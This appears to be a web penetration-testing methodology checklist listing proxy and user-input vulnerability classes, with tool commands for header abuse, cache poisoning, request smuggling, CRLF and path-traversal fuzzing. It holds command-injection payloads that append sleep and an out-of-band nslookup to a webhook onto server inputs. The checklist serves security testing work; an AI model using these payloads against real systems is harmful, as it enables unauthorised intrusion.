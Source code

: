 # Methodology

## Proxies
- ☐ Abusing hop-by-hop headers
```bash
// Tool hbh-header-abuse-test
for HEADER in $(cat /usr/share/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers); do python3 hbh-header-abuse-test.py -u <url> -x "$HEADER" -v; :'sleep 1'; done
```
- ☐ Cache Poisoning/Cache Deception
```bash
// Tool Web-Cache-Vulnerability-Scanner
go install -v github.com/Hackmanit/Web-Cache-Vulnerability-Scanner@latest
cp go/Web-Cache-Vulnerability-Scanner tools/Web-Cache-Vulnerability-Scanner/wcvs
cd tools/Web-Cache-Vulnerability-Scanner/
./wcvs -u <url> -hw wordlists/headers -pw wordlists/parameters -f
```
- ☐ HTTP Request Smuggling 
```bash
// Burp - HTTP Request Smuggler
- Right click on a request and click Extensions > HTTP HTTP Request Smuggler > Smuggle Probe.

// Tool Smuggler by gwen001
wget https://raw.githubusercontent.com/gwen001/pentest-tools/master/smuggler.py
python3 smuggler.py -u <url> -v 3
```
- ☐ H2C Smuggling
```
// Tool h2csmuggler
python3 h2csmuggler.py -x <url> -t --threads 5 -v
```
- ☐ Uncovering Cloudflare
- ☐ XSLT Server Side Injection

## User input
### Reflected Values
- ☐ Client Side Template Injection (Like SSTI)
- ☐ Command Injection
```
// Tool commix
commix -r <REQUESTFILE> -p <TEST_PARAMETER>

// Test delay
original_cmd_by_server;sleep+5
original_cmd_by_server&&sleep+5
original_cmd_by_server|sleep+5
original_cmd_by_server||sleep+5

// Test when no effect on the application's response
original_cmd_by_server;nslookup+<webhook>
```
- ☐ CRLF
```
// Tool crlfuzz
crlfuzz -u <url>
```
- ☐ Dangling Markup
- ☐ File Inclusion/Path Traversal
```
// Fast Fuzzing
wfuzz -c -w /usr/share/wfuzz/wordlist/Injections/Traversal.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
// Deep Fuzzing (recommend)
wfuzz -X GET -c -w file_inclusion_linux.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ

// Can use Burp Active Scanner
```
- ☐ Open Redirect
- ☐ Prototype Pollution to XSS
- ☐ Server Side Inclusion/Edge Side Inclusion (Detected by Burp Scanner)
- ☐ Server Side Request Forgery
- ☐ Server Side Template Injection
- ☐ Reverse Tab Nabbing
- ☐ XSLT Server Side Injection
- ☐ XSS
- ☐ XSSI
- ☐ XS-Search

